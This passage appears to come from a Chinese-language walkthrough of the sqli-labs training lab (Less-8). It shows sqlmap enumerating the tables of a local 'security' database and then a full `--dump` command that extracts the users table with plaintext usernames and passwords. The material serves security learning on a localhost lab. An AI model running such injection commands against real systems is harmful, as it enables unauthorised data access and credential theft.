 ```bash
[00:30:23] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[00:30:23] [INFO] retrieved: 4
[00:30:23] [INFO] retrieved: emails
[00:30:23] [INFO] retrieved: referers
[00:30:23] [INFO] retrieved: uagents
[00:30:23] [INFO] retrieved: users
Database: security
[4 tables]
+----------+
| emails   |
| referers |
| uagents  |
| users    |
+----------+
```

然后再基于当前的表，可以继续爆破表的数据：

```bash
┌──(root㉿Seso)-[~]
└─# sqlmap -u "http://localhost/Less-8/?id=1" --batch -D security -T users --dump

Database: security
Table: users
[13 entries]
+----+------------+----------+
| id | password   | username |
+----+------------+----------+
| 1  | Dumb       | Dumb     |
| 2  | I-kill-you | Angelina |
| 3  | p@ssword   | Dummy    |
| 4  | crappy     | secure   |
| 5  | stupidity  | stupid   |
| 6  | genious    | superman |
| 7  | mob!le     | batman   |
| 8  | admin      | admin    |
| 9  | admin1     | admin1   |
| 10 | admin2     | admin2   |
| 11 | admin3     | admin3   |
| 12 | dumbo      | dhakkan  |
| 14 | admin4     | admin4   |
+----+------------+----------+

[00:32:24] [INFO] table '`security`.users' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/security/users.csv'
[00:32:24] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 00:32:24 /2024-05-07/
```
